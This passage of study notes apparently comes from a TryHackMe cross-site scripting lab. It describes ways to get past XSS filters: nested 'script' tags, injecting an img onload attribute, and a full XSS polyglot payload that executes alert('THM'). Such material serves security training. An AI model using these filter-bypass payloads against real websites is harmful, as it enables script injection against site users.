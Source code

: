 * The word `script` gets removed from the payload due to a filter that strips out any potentially dangerous words.
* There's a trick that you can be tried when a word gets removed from a string: `<sscriptcript>alert('THM');</sscriptcript>`.
* Now when clicking the enter button, an alert will popup with the string `THM`.
### Payload Example 6 - Escape a Filtered Input Tag
* Similar to example two.
  * However, `"><script>alert('THM');</script>` does not work.
* View page source to see why payload doesn't work:
  * `<div vlass="text-center">`
  * `<h2>Your Picture</h2>`
  * `<img src=""scriptalert('THM');/script">`
  * `</div>`
* `<` and `>` characters get filtered out from our payload preventing the 'IMG' tag escape.
* Take advantage of the `onload` event attribute of the `IMG` tag to get around the filter.
  * The `onload` event executes the code once the image specified in the `src` attribute has loaded onto the web page.
* Change the payload to `/images/cat.jpg" onload="alert('THM');`
* View the page source to see how this will work:
  * `<div vlass="text-center">`
  * `<h2>Your Picture</h2>`
  * `<img src="/imges/cat.jpg" onload="alert(HTM);">`
  * `</div>`
* Now when clicking the enter button, an alert will popup with the string `THM`.
### Polyglots
* XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one.
* Could have used the polyglot below on all six exmples above and it would have executed the code successfully:
  * `jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e`
